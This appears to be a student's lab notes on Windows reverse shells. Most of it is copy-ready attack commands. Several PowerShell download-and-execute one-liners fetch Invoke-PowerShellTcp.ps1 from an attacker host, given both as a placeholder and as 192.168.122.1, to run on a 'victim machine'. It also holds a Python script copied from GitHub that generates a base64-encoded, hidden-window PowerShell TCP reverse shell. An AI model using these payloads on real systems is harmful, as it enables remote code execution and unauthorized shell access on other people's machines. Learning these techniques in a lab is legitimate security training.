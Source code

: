 - And then we can download it and execute it from the victim machine

- If we execute from CMD.exe

```cmd
powershell -c "iex(new-object net.webclient).downloadstring(\"http://<ATTACKER-IP>:<ATTACKER-PORT>/Invoke-PowerShellTcp.ps1\")"
```

```cmd
powershell -c "iex(new-object net.webclient).downloadstring(\"http://192.168.122.1:1337/Invoke-PowerShellTcp.ps1\")"
```

- If we execute from powershell.exe

```powershell
iex(new-object net.webclient).downloadstring("http://<ATTACKER-IP>:<ATTACKER-PORT>/Invoke-PowerShellTcp.ps1")
```

```powershell
iex(new-object net.webclient).downloadstring("http://192.168.122.1:1337/Invoke-PowerShellTcp.ps1")
```

If you get an error, try with single quotes:

```powershell
iex(new-object net.webclient).downloadstring('http://192.168.122.1:1337/Invoke-PowerShellTcp.ps1')
```
- Make sure the script is in the same directory as the one that you start the server so that the victim machine can access it. 

1. Specify web-server
2. Specify the listener 
3. Input the command on the victim machine

_It looks like the teacher was using the wrong command, so the last part of the above section may not be needed (single quotes)._

---

Another way is by using the following python script, which encodes a `base64 reverse shell in powershell`, and then prints out the command to decode and execute such reverse shell.

Copied file from github: https://github.com/LeonardoE95/yt-en/blob/main/src/2024-07-10-windows-privesc-windows-reverse-shells/content/code/base64_powershell.py
```python
#!/usr/bin/env python3

import sys
import base64

# ----------------------------------------    

IP = "192.168.122.1"
PORT = 7777

def gen_payload(ip, port):
    payload = f"$client = New-Object System.Net.Sockets.TCPClient(\"{ip}\", {port});$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{{0}};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \"PS \" + (pwd).Path + \"> \";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}};$client.Close()"
    
    payload = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

    return payload

```